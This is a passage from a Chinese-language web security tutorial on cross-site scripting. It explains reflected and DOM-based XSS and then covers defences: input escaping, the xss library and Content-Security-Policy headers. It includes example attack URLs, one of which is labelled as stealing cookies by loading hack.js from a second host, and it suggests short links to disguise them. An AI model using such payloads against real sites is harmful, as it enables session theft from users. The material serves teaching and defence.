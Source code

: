 在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户

```js
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
// 短域名伪造 https://dwz.cn/
```

#### **基于 DOM 的 XSS 攻击**

具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

### 如何阻止 XSS 攻击

1. **服务器对输入脚本进行过滤或转码**

   - 黑名单

   ```js
   function escape(str) {
     str = str.replace(/&/g, "&amp;");
     str = str.replace(/</g, "&lt;");
     str = str.replace(/>/g, "&gt;");
     str = str.replace(/"/g, "&quto;");
     str = str.replace(/'/g, "&#39;");
     str = str.replace(/`/g, "&#96;");
     str = str.replace(/\//g, "&#x2F;");
     return str;
   }
   ```

   - 白名单

   ```js
   const xss = require("xss");
   let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
   // -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
   ```

2) **充分利用 CSP**
   CSP 有如下几个功能：

- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；
- 禁止执行内联脚本和未授权的脚本；
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。

```js
// 只允许加载本站资源
Content-Security-Policy: default-src 'self'
// 只允许加载 HTTPS 协议图片
Content-Security-Policy: img-src https://*
// 不允许加载任何来源框架
Content-Security-Policy: child-src 'none'
```
